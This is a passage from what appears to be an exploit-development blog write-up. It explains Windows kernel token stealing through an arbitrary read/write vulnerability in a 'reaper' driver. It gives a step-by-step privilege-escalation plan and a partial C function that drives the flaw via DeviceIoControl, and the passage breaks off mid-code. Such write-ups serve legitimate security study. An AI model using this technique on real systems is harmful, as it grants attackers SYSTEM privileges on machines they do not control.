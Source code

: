 And then it suddenly dawned on me... I wanted to copy a `SYSTEM` token to the current process thread. I have done this using 64bit shellcode before. In my head I was like **"I'll run the token stealing shellcode then I'm done"**... wait... I don't have code execution in the kernel, I have an arbitrary read/write!

I thought that using my arbitrary read I might be able to convert the token stealing shellcode in to user mode code, using kernel reads, to enumerate a system process, locate the security token, then locate the current process in kernel mode and copy the token over using the arbitrary write. Sounds simple, just one catch. I had never done this before!

# Token Stealing

Token stealing is a technique used in Windows privilege escalation. Each running process has an associated `_EPROCESS` object in the kernel, and the `_EPROCESS` onject contains a reference to the `_EX_FAST_REF` structure; this represents the process' security token.

Token stealing involves exploiting kernel code to copy the `SYSTEM` token into the current process token, thus elevating privileges.

I formulated a plan:

- Locate the base address of the kernel.
- Locate the `SYSTEM` `_EPROCESS` using a common technique from user mode.
- Locate the `SYSTEM` token using the read/write primitive in the vulnerable driver.
- Enumerate the running processes using the read/write primitive.
- Locate the current process and locate the associated security token address.
- Use the read/write primitive to copy the `SYSTEM` token over the current process' token.

## Read/Write Primitive

This code uses the vulnerability I found in the **reaper** driver to read and write to any kernel mode address. This was used in other functions:

```c
void ArbitraryWrite(HANDLE hDevice, QWORD src, QWORD dst)
{
    ReaperData userData;

    userData.Magic = 0x6a55cc9e;
    userData.ThreadId = GetCurrentThreadId();
    userData.Priority = 0;
    userData.SrcAddress = src;
    userData.DstAddress = dst;

    // Allocate pool memory
    unsigned char outputBuf[1024];
    memset(outputBuf, 0, sizeof(outputBuf));
    ULONG bytesRtn;

    BOOL result = DeviceIoControl(hDevice,
        IOCTL_ALLOCATE,
        (LPVOID)&userData,
        (DWORD)sizeof(struct ReaperData),
        outputBuf,
        1024,
        &bytesRtn,
        NULL);

    // Copy operation
    memset(outputBuf, 0, sizeof(outputBuf));
    result = DeviceIoControl(hDevice,
        IOCTL_COPY,
        (LPVOID)NULL,
        (DWORD)0,
        outputBuf,
```

[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"